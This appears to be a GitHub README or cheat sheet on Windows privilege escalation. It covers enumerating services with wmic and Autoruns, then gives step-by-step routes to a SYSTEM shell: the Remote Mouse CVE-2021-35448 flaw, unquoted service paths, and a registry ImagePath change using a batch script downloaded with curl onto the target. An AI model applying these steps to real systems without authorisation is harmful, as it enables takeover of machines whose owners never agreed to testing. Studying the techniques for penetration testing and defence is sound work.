 ### tips to identify services with vulnerabilites and exploit them to execute custom commands with elevated privileges.
use the followign command to identify services running from outside windows system32 directory
```bash
wmic service get name,displayname,pathname | findstr /i /v "C:\\Windows\\System32\\"
```

### Additional Tool: Autoruns

If you have access to **Autoruns** from Sysinternals, you can use it to inspect abnormal services as well.

**Autoruns**: This tool will show all services, scheduled tasks, startup programs, and more. It will highlight non-standard services that are automatically executed, helping you identify anything that looks suspicious or was recently added.
### 4. Privilege Escalation Using Identified Services

#### a) **RemoteMouseService (CVE-2021-35448)**
This vulnerability in the **Remote Mouse** application allows attackers to open an elevated command prompt:
1. **Access the Remote Mouse Settings**:
   - Right-click on the Remote Mouse icon in the system tray and open the settings.
   
2. **Change the Image Transfer Folder**:
   - In the settings, locate the option to change the image transfer folder.
   - Change the folder path to `C:\Windows\System32\cmd.exe` and press Enter.

3. **Open an Admin Command Prompt**:
   - This action will spawn an elevated command prompt. Verify privileges with:
   ```bash
   whoami
   ```
   - You should see `nt authority\system`.

#### b) **Unquoted Service Path Vulnerability**
Exploiting unquoted service paths:
1. Identify services with unquoted paths using:
   ```bash
   wmic service get name,displayname,pathname | findstr /i /v "C:\\Windows\\System32\\"
   ```
2. If an unquoted path exists, place a malicious executable in a directory matching the path to execute your payload.

#### c) **Insecure Registry Service Exploit**
**Cudos to [Ardemium](https://github.com/Ardemium/InsideJob) for the tip.** 
Using the **ModifyServiceImagePath.bat** script to modify the `ImagePath`:
if you're willing to use this script you will need to download it from the link above and run it in the target machine or use the following command to fetch it:
```bash
curl -L -o "%USERPROFILE%\ModifyServiceImagePath.bat" https://raw.githubusercontent.com/Ardemium/InsideJob/refs/heads/main/utils/ModifyServiceImagePath.bat
```
